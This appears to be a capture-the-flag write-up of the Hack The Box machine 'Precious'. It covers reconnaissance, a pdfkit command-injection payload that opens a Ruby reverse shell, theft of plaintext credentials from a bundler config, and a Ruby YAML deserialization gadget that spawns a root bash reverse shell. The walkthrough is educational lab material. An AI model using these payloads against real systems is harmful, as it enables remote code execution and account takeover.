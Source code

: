 # Information Gathering and Vulnerability Scanning

Nmap:
```bash
$ nmap -sC -sV -A 10.10.11.189 -o nmap.out
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-29 12:30 EDT
Nmap scan report for 10.10.11.189
Host is up (0.037s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.31 seconds
```

---
Get headers from burpsuite and got the server software and version: **Phusion Passenger(R) 6.0.15**
```r
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Connection: close
Status: 200 OK
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Date: Wed, 29 Mar 2023 17:11:00 GMT
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby
Content-Length: 506
```
ExploitDB and CVE details does not show any vuln related. Still, it's valuable info!

---
Headers look weird to:
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

why image?

---
htmltopdf 0.12.6 is the plugin for ruby for the pdf
https://cyber-guy.gitbook.io/cyber-guys-blog/blogs/initial-access-via-pdf-file-silently

---
webserver is running `pdfkit v0.8.6` for the html to pdf
https://github.com/shamo0/PDFkit-CMD-Injection
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

---

# Attack & Exploits
PDFkit-CMD-Injection looks really good.

```r
POST / HTTP/1.1
Host: precious.htb
Content-Length: 144
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://precious.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://precious.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


url=http%3a//10.10.14.101%3a4040/%3fname%3d%2520`+ruby+-rsocket+-e'spawn("bash",[%3ain,%3aout,%3aerr]%3d>TCPSocket.new("10.10.14.101",4040))'`
```

```bash
python -m http.server 80
nc -lvnp 4040 

cd /home/ruby
cat .bundle/config
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:***********" 

su henry
Password: ***********
id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
cd
cat user.txt
**************
```

----
# Priv escalation

Run common enum and found a custom script for update dependencies:
```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Found this about priv esc in ruby:
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/
```bash
henry@precious:~$ cd /home/henry/
henry@precious:~$ vi dependencies.yml 
```
```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.136/4040 0>&1'"
         method_id: :resolve
```

Set up netcat listener:
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4040
listening on [any] 4040 ...
``` 

And finally run the script:
```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```




# Analysis

- Outdate version on webserver is running `pdfkit v0.8.6` for the html to pdf causes a RCE for ruby user :(
- Then a plain text stored creds lead into henry user being affected
- Finally, priv esc:
	- sudo admin rights for a custom script? that's a risk
	- conbined that the scrip is not using absolute path leads into root running any dependecies.yml that is provided

Really funny box!